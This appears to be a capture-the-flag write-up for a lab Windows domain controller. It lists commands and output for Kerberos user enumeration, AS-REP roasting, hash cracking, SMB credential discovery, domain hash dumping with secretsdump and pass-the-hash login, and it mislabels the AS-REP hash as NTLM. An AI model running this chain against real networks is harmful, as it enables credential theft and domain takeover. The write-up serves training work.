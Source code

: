 # Room 		Attacktive Directory
> Mayank Srivastava | 17 dec 2020

## Target OS 	Windows Difficulty 	Medium
## Description 	99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

#	Reconnaissance
``` As always I can Run a nmap scan against the IP  ```

```-sC for Default script -sV for Enumerating versions -oN default nmap Output```

```nmap -Sc -sV -oN nmap <target_ip> ```

```
# Nmap 7.91 scan initiated Thu Dec 17 19:05:58 2020 as: nmap -sC -sV -oN nmap/initial 10.10.103.197
Nmap scan report for 10.10.103.197
Host is up (0.63s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-17 13:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-17T13:36:57+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2020-09-16T22:48:24
|_Not valid after:  2021-03-18T22:48:24
|_ssl-date: 2020-12-17T13:37:08+00:00; +2s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-17T13:36:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 17 19:07:24 2020 -- 1 IP address (1 host up) scanned in 86.47 seconds
```

## Enumerating Port 80

We can start by looking at the webserver. There's default IIS web page also we can do directory bruteforcing but this box is related to Active Directory so let's Move forward. There is a DNS domain name that i am going set spoookysec.local in ```/etc/hosts``` file.

## Enumerating SMB

Let's try to Enumerate 139,445 ports.
using enum4linux
```
enum4linux -a spookysec.local
Nmap Output suggested our Domain Name was spookysec.local however, enum4linux shows THM-AD.
I can see enum4linux failed to provide much inforamtion such as 
users.
```
## Kerbrute

we can try kerbrute to  get users of DC
```kerbrute username --dc spookysec.local -d spookysec.local userlist.txt```
After running this command i have some vaild users of DC.
 
```
2020/10/01 04:50:02 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/01 04:50:06 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/01 04:50:12 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/01 04:50:14 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/01 04:50:36 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/01 04:50:50 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/10/01 04:51:28 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/01 04:51:41 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/01 04:53:01 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/01 04:53:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/01 04:56:11 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/01 05:02:01 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/01 05:03:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/01 05:10:02 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/01 05:11:51 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/01 05:15:01 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
## Exploiting Kerberos


Now i am going to crack Active Directory password with AS-REP Roasting. This is an attack agains Kerberos for user accounts that do not require pre-authentication.

```python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -usersfile valid-users.txt```

After running this command i got ```NTLM``` hash


## Cracking 

i can't wait let's decrypt the hash using john and login to ```smb```.
Also you can use ```hashcat``` for cracking the hash use mode number ```18200``` for hash

## john

``` john scv-admin.txt --wordlist=/opt/password.txt```

## hashcat

```
hashcat -m 18200 svc-admin.txt /opt/password.txt --force
```

```Running john and hashcat will gave you a password.```

now at this stage i have smb username and password so let's try to login using smbclient

```
smbclient -L //<target_ip>/ --user svc-admin


 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
I found some shares and ```backup``` seems interesting.I found ```backup_credentials.txt``` file inside the ```backup```. Let's take a look at what's that include.

``` YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw ```
it's a base64 encoding.
Decrypting will give me another credential for the user backup.

## Elevating Privileges 

``` 
python secretsdump.py -just-dc backup@spookysec.local
```

Dumping this revels administrator NTLM hash. Now i can crack the hash or use ```evil-winrm``` to connect the administrator.

```
./evil-winrm.rb -i 10.10.225.20 -u Administrator -H (HASH HERE PLEASE)
```

